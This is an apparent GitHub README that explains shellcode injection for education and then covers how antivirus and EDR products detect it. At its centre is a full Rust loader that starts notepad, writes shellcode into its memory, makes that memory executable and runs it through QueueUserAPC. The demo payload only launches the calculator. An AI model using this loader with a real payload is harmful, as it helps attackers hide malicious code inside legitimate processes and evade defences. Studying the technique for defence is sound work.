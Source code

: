 # Shellcode-Injection
A collection of information regarding shellcode injection.

## Introduction
In this repository I will explain what shellcode injection is, how it works and how we can prevent attackers from doing it.

### What is shellcode?
Shellcode is PIC (Position independent code), meaning that it can execute regardless of its memory address or file location. This is useful for attackers as they are able to inject it into a process without needing to modify the target program at all. Shellcode is written in assembly which is difficult to understand so usually automated tools are used to create shellcode from already written programs. Tools such as [Donut] are used to do this.(https://github.com/TheWover/donut)
### How does it work?
Now that we have established what shellcode is I can now explain how it is injected and later I will provide a code example.

Shellcode can be injected in lots of different ways some include remote process injection, local thread injection and remote thread injection but there are many more.

It usually works by starting a remote process in a suspended state, allocating a memory region, changing the permissions to allow for execution, then writing the shellcode to the memory then finally resuming the thread. After this the shellcode will be executed and running in that remote process.
#### Code example:
I have used the windows-sys crate to interact with the windows API.
```
[dependencies]  
windows-sys = { version = "0.52.0", features = ["Win32_System_Memory", "Win32_Foundation", "Win32_System_Threading", "Win32_System_Diagnostics_Debug", "Win32_Security", "Win32_System_SystemServices", "Win32_System_SystemInformation", "Win32_System_Kernel"] }
```
```
use {  
    std::{  
        ptr::{null_mut, null},  
        mem::{zeroed},  
        intrinsics::transmute,  
    },  
    windows_sys::Win32::{  
        Foundation::{FALSE, TRUE},  
        System::{  
            Memory::{VirtualAllocEx, VirtualProtectEx, MEM_COMMIT, MEM_RESERVE, PAGE_READWRITE, PAGE_EXECUTE},  
            Diagnostics::Debug::{WriteProcessMemory},  
            Threading::{CreateProcessA, CREATE_SUSPENDED, PROCESS_INFORMATION, STARTF_USESTDHANDLES, STARTUPINFOA, CREATE_NO_WINDOW, QueueUserAPC},  
        },  
    },  
};  
  
fn main() {  
    let calc_shellcode = include_bytes!(r#"C:\Users\user\Desktop\calc.bin"#); // Shellcode to spawn calculator  
  let notepad_location = b"C:\\Windows\\System32\\notepad.exe\0";  
  
    unsafe { // unsafe as the compiler cannot guarantee the memory safety.  
  let mut pi: PROCESS_INFORMATION = zeroed();  
        let mut si: STARTUPINFOA = zeroed();  
        si.dwFlags = STARTF_USESTDHANDLES | CREATE_SUSPENDED;  
        si.wShowWindow = 0;  
  
        let create_proc = CreateProcessA( // creates the process  
  notepad_location.as_ptr(),  
            null_mut(),  
            null(),  
            null(),  
            TRUE,  
            CREATE_NO_WINDOW,  
            null(),  
            null(),  
            &si,  
            &mut pi,  
        );  
        if create_proc == FALSE {  
            println!("failed to create process");  
            return;  
        }  
  
        let allocate_mem = VirtualAllocEx( // allocates the memory that we will later write the shellcode to.  
  pi.hProcess,  
            null(),  
            calc_shellcode.len(),  
            MEM_COMMIT | MEM_RESERVE,  
            PAGE_READWRITE,  
        );  
        if allocate_mem.is_null() {  
            println!("failed to allocate memory");  
            return;  
        }  
  
        let write_shell = WriteProcessMemory( // write the shellcode to the allocated memory  
  pi.hProcess,  
            allocate_mem,  
            calc_shellcode.as_ptr().cast(),  
            calc_shellcode.len(),  
            null_mut(),  
        );  
        if write_shell == FALSE {  
            println!("failed to write shellcode");  
            return;  
        }  
  
        let mut old = PAGE_READWRITE;  
        let res = VirtualProtectEx(pi.hProcess, allocate_mem, calc_shellcode.len(), PAGE_EXECUTE, &mut old); // makes the shellcode executable  
  if res == FALSE {  
            println!("failed to make shellcode executable");  
            return;  
        }  
  
        let func = transmute(allocate_mem); // transmutes the shellcode to a function pointer  
  let res = QueueUserAPC(Some(func), pi.hThread, 0); // queues the user APC  
  if res == 0 {  
            println!("failed to queue user APC");  
            return;  
        }  
    }  
}
```
So this code here will inject caluclator.exe shellcode into notepad, obviously in a real world scenario an attacker would inject a malicious payload.
##  Prevention
Antiviruses and EDR's employ a range of tactics when it comes to preventing shellcode injection and similar attacks. The big prevention method that most services implement is monitoring API calls, as you will be able to see in my code I use API calls such as CreateProcessA, VirtualAllocEx, WriteProcessMemory and VirtualProtectEx these calls are invoked from KERNEL32.DLL which is loaded into the running application. These calls have corresponding functions in the windows native API which is exposed by NTDLL.DLL. So AV's and EDR's hook into NTDLL and analyze any calls which a program makes which allows them to determine if a program is malicious or not.

Now for most people the best way to prevent an attack like this is common sense do not download things from untrusted sources however sometimes it is unavoidably so after testing these types of attacks on a range of antiviruses I have seen two stand out AV's:

The first being [ESET/NOD32](https://www.eset.com/)
- Its host intrusion protection system is brilliant at detecting unwanted behavior in host processes and normal programs. Especially its memory scanning, which checks the heuristic behavior of all program including host ones like "svchost", "regasm" which are common attack vectors. 

The second is [SOPHOS](https://www.sophos.com/)
- Sophos recently introduced "Intercept X" which blocks common shellcode injection techniques like allocating memory in a remote process.

Overall shellcode injection is very dangerous and better prevention techniques should be implemented into more AV's to stop these types of attack, however malware is a cat and mouse game when one technique is flagged/signature another one pops up so its important to stay up to date with attacks to stop yourself being the victim.
